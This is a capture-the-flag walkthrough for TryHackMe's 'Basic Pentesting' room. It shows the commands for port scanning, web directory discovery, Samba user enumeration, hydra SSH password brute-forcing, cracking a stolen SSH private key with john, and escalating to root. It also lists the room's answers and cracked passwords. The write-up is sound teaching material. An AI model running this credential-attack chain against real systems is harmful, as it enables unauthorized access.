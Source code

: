 20.08.2020 | Felix Strobel ([relevant](https://tryhackme.com/p/relevant))

# Basic Pentesting

- [Task 1](#task-1)

## Task 1

<i>First we have to [connect](https://tryhackme.com/access) to the tryhackme network and deploy the machine. This is also our first question.</i>

1. Deploy the machine and connect to our network.<br>
   `No answer needed.`

<i>Then we should check which services are exposed by the machine. Let's first make an [nmap](https://nmap.org) scan using the default scripts `-sC`. For detecting versions use `-sV`.<br>
The full command looks like this: `nmap -sC -sV MACHINE_IP`<br>
After a little bit of waiting it gives us the following output. Here we can see that a SSH and a HTTP service are running.</i>

<pre>
PORT     STATE SERVICE     VERSION
<b>22/tcp   open  ssh         OpenSSH 7.2p2</b> Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
<b>80/tcp   open  http        Apache</b> httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?
8080/tcp open  http-proxy?
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

2. Find the services exposed by the machine.<br>
   `No answer needed.`

<i>The next question prompts us to enter a hidden directory on the web server. So let's start [gobuster](https://github.com/OJ/gobuster) and search for a directory `dir`. The target will be specified by the `-u` flag. Don't forget the protocol! To select a wordlist you can use the `-w` flag. I am using the [`common.txt`](https://gitlab.com/kalilinux/packages/dirb/-/blob/kali/master/wordlists/common.txt) wordlist from [DIRB](http://dirb.sourceforge.net).<br>
The full command looks like this: `gobuster dir -u http://MACHINE_IP -w ./common.txt`<br>
Just a few seconds later gobuster gives us the following output. All directories found are common directories except for the `development` directory.</i>

<pre>
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
<b>/development</b> (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
</pre>

3. What is the name of the hidden directory on the web server (enter name without /)?<br>
   `development`

<i>The next question hints at what to do next. When visiting the `/development` directory we can see two text files. The `j.txt` file has some interesting content: it seems that j's password is not that strong. We will keep that in mind.</i>

4. User brute-forcing to find the username & password.<br>
   `No answer needed.`

<i>To brute-force j's password it is easier for us to know his full username. To get it we can enumerate the [Samba](https://www.samba.org) service. I decided to go with [enum4linux](https://labs.portcullis.co.uk/tools/enum4linux). Using the `-a` flag enables us to do a simple enumeration.<br>
The full command looks like this: `enum4linux -a MACHINE_IP`<br>
This time it takes a little bit longer but the result clearly shows the two users on the machine.</i>

<pre>
S-1-22-1-1000 Unix User\<b>kay</b> (Local User)
S-1-22-1-1001 Unix User\<b>jan</b> (Local User)
</pre>

5. What is the username?<br>
   `jan`

<i>Now we know the full username and can start brute-forcing the password. My weapon of choice is [hydra](https://github.com/vanhauser-thc/thc-hydra). The `-l` flag let's us set the username we already found out. And to specify a wordlist, I will use the [`rockyou.txt`](https://gitlab.com/kalilinux/packages/wordlists/-/blob/kali/master/rockyou.txt.gz), we can use `-P`.<br>
The command: `hydra -l jan -P ./rockyou.txt ssh://MACHINE_IP`<br>
This operation is taking some minutes. Be pacient. When hydra finishes you will see the brute-forced password.</i>

<pre>
[22][ssh] host: 10.10.155.245   login: jan   password: <b>armando</b>
</pre>

6. What is the password?<br>
   `armando`

<i>The next question is easy to answer. We have already found all of the credentials. So why not use ssh to get into the machine.</i>

7. What service do you use to access the server?<br>
   `SSH`

<i>Now we are told to enumerate the machine and check if there is any possibility to escalate our privileges.</i><!--Describe how-->

8. Enumerate the machine to find any vectors for privilege escalation.<br>
   `No answer needed.`

<i>This question is designed to find the second user on the machine. We found the second user before and can easily answer the question.</i>

9. What is the name of the other user you found?<br>
   `kay`

<i>Now there is the possibility that the other user could have more privileges than our current user. The question leads us again to a ssh login. After a bit of searching I found kay's public and private keys in the `/home/kay/.ssh` directory. We can `cat` them out and save them on our machine. To hash the keys we run [`ssh2john.py`](https://www.openwall.com/john) and `echo` the result into `hashed_ssh_key.txt`.<br>
The command: `python ./john/ssh2john.py ssh_key.txt > hashed_ssh_key.txt`<br>
At this point we can use [`john`](https://www.openwall.com/john) to crack the password for kay. With the `--wordlist` flag we specify the wordlist `rockyou.txt`, already used before.<br>
The command should look like this: `john --wordlist=./rockyou.txt hashed_ssh_key.txt`<br>
This command will give you the cracked password for kay's user account. We are still logged in as jay but we want to change the user to kay. To do so we can simply try to connect to kay's ssh with this command: `ssh /home/kay/.ssh/id_rsa kay@MACHINE_IP`<br>
And here we go. We have logged in kay's account. Now we have all the permissions needed to read the `pass.bak` file. Let's `cat` that out and see the password.
</i>

10. If you have found another user, what can you do with this information?<br>
    `No answer needed.`

<i>And we also found the password and can answer the final question.</i>

11. What is the final password you obtain?<br>
    `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

<i>It's good practise to try become root on the machine. I looked what `sudo -l` returns me and discovered that we can run all commands. I simply tried to switch the user `sudo su` and I was successful. I became root! And after checking the `/root` directory I found a little note from the author.</i>
